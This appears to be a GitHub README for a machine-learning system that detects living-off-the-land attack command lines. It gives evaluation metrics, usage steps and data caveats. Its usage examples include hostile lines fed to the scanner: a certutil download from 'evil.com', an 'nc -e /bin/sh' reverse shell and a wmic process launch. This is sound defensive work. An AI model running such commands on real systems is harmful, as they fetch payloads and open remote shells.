

<div align="center">

# LotlDetection

### Living-off-the-Land Attacks Detection System by Machine Learning

[](https://www.python.org/)
[]()
[]()

---

</div>

## Overview

LotlDetection is a security framework designed to detect Living-off-the-Land techniques across Windows and Linux command lines. By abusing trusted, cryptographically signed administrative utilities such as certutil, wmic, netsh, powershell, or standard POSIX binaries, adversaries execute malicious actions while blending into legitimate enterprise administration traffic.

LotlDetection integrates rule-based semantic feature engineering, dual-view de-obfuscation, platform-calibrated Random Forest classification, and Sentence-BLEU lexical matching against authoritative threat corpora.

---

## System Workflow

The detection engine processes incoming command lines through a multi-stage hybrid pipeline:



### Execution Steps:
1. **Input and Normalization:** Unrolls command-line escape characters such as Windows caret, strips redundant whitespace, categorizes IPv4 addresses into private or public tiers, and tokenizes command components.
2. **Feature Extraction:** Matches tokens against binary registries, sensitive system paths, and behavioral regular expressions to produce a semantic label vector.
3. **Dual-Track Evaluation:**
   - Statistical track: Transforms labels via CountVectorizer and computes malicious posterior probability using a 100-tree balanced Random Forest.
   - Lexical track: Computes runtime Sentence-BLEU similarity against historical attack corpora.
4. **Decision Logic:** Emits an actionable verdict based on platform-calibrated risk thresholds: threshold 0.35 for Windows and threshold 0.60 for Linux.

---

## Evaluation Results

### Windows Test Holdout

```text
                                          precision    recall  f1-score   support

Good/Neutral     0.9918    0.9823    0.9871      1358
         Bad     0.7000    0.8358    0.7619        67

    accuracy                         0.9754      1425
   macro avg     0.8459    0.9091    0.8745      1425
weighted avg     0.9781    0.9754    0.9765      1425

TN=1334 FP=24 FN=11 TP=56
NEUTRAL=544 (including 0 BAD samples)
```

### Linux Test Holdout

```text
                                          precision    recall  f1-score   support

Good/Neutral     0.9755    0.9927    0.9840       681
         Bad     0.9750    0.9198    0.9466       212

    accuracy                         0.9754       893
   macro avg     0.9752    0.9562    0.9653       893
weighted avg     0.9754    0.9754    0.9751       893

TN=676 FP=5 FN=17 TP=195
NEUTRAL=16 (including 0 BAD samples)
```

---

## Quick Start

### 1. Installation

Prerequisites: Python 3.11+

```powershell
cd D:\Github\LotlDetection
python -m venv .venv
.\.venv\Scripts\Activate.ps1
pip install -r requirements.txt
```

### 2. Command-Line Detection

- Interactive Console Mode:
  ```powershell
  python scripts/scan.py --platform windows
  ```
  ```text
  LotlDetection [windows] - type exit to quit
  >>> certutil.exe -urlcache -split -f http://evil.com/payload.exe payload.exe

  >>> dir C:\Users

  >>> exit
  ```

- Ad-Hoc Single Command Scan:
  ```powershell
  python scripts/scan.py --platform windows "wmic process call create 'cmd.exe /c whoami'"
  python scripts/scan.py --platform linux "nc -e /bin/sh 10.10.10.10 4444"
  ```

- Batch File Inspection:
  ```powershell
  python scripts/scan.py --platform windows --file telemetry_commands.txt
  ```

### 3. Model Training and Evaluation

```powershell
# Retrain model
python scripts/train.py --platform windows
python scripts/train.py --platform linux

# Evaluate on test holdout
python scripts/evaluate.py --platform windows
python scripts/evaluate.py --platform linux
```

---

### Training and reference limitations

The symbolic extractor was extended and its original regex groups were migrated to independent rules on 2026-11-03; the training and verdict logic are unchanged. The trainer now skips **0 Windows BAD** and **0 Linux BAD** training rows with no features (previously 80 and 225). It fits **12,819 Windows rows / 716 features** and **8,037 Linux rows / 953 features**. Skipped examples remain in raw data and provenance; they are not silently deleted. Feature coverage alone does not establish that a command is distinguishable from ordinary administration.

CSV is the canonical training input. `linux.txt` remains synchronized with Linux CSV. The full `windows.txt` export was quarantined by Windows Security and is currently unavailable; do not assume it contains the expanded Windows dataset. The scan CLI still supports user-supplied TXT command lists.

BLEU keeps a subset of the previously readable references, restricted to source-backed BAD commands in the current train split: 60 Windows references and 33 Linux references. No current test command is present. Windows Security quarantined an expanded Linux reference file; that content was not restored and protection settings were not changed. The broad dataset is learned by RF within the feature coverage above. RF settings, thresholds and the BLEU algorithm were not changed.

The benign data's historical origins are not all independently verified, and Linux benign records remain dominated by `find`. Do not interpret an internal holdout score as a validated production false-positive rate. New source additions or raw-data changes require rebuilding the references, retraining and reevaluating.

---

## Project Structure

```text
LotlDetection/
├── README.md
├── requirements.txt
│
├── data/
│   ├── raw/
│   │   ├── windows.csv             # 14,244 Windows samples
│   │   └── linux.csv               # 8,930 Linux samples
│   ├── external/
│   │   ├── cmd_known.corpus        # 60 Windows reference commands
│   │   └── bash_known.corpus       # 33 Linux reference commands
│   └── features/
│       ├── windows/train.csv       # Windows feature matrix
│       └── linux/train.csv         # Linux feature matrix
│
├── models/
│   ├── windows/
│   │   ├── rf_classifier.joblib    # Random Forest model
│   │   ├── vectorizer.joblib       # CountVectorizer vocabulary mapping
│   │   └── feature_config.json     # Configuration hashes and threshold metadata
│   └── linux/
│       ├── rf_classifier.joblib    # Random Forest model
│       ├── vectorizer.joblib       # CountVectorizer vocabulary mapping
│       └── feature_config.json     # Configuration hashes and threshold metadata
│
├── scripts/
│   ├── scan.py                     # Command-line scanner
│   ├── train.py                    # Model training pipeline
│   └── evaluate.py                 # Holdout test set evaluation script
│
└── src/
    ├── config.py                   # Hyperparameters, paths, and calibrated thresholds
    ├── data.py                     # Ingestion, stratified splitting, and sparse matrix export
    ├── evaluation.py               # Classification reporting and confusion matrix routines
    ├── features/                   # Feature extraction modules
    │   ├── label_generators.py     # Regex and keyword label extractors
    │   ├── pipeline.py             # Feature pipeline orchestrator
    │   ├── rules_constants.py      # Binary dictionaries, path constants, and rules
    │   └── similarity.py           # Sentence-BLEU n-gram similarity engine
    ├── models/
    │   ├── predictor.py            # Inference engine and decision logic
    │   └── trainer.py              # Random Forest training engine
    └── preprocessing/              # Text normalization
        ├── normalizer.py           # Caret unmasking and IPv4 extraction
        └── tokenizer.py            # Windows CMD and POSIX tokenizers
```

---

## References

1. LOLBAS Project: https://lolbas-project.github.io
2. GTFOBins Project: https://gtfobins.github.io
3. CISA Advisory AA24-038A: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a
4. Atomic Red Team: https://github.com/redcanaryco/atomic-red-team
5. Adobe libLOL: Machine Learning and Feature Engineering for Detecting Living off the Land Attacks, IoTBDS, 2022.

---

<div align="center">
  <sub>LotlDetection is an open-source cybersecurity project developed for enterprise threat detection and academic research. Licensed under Apache 2.0.</sub>
</div>
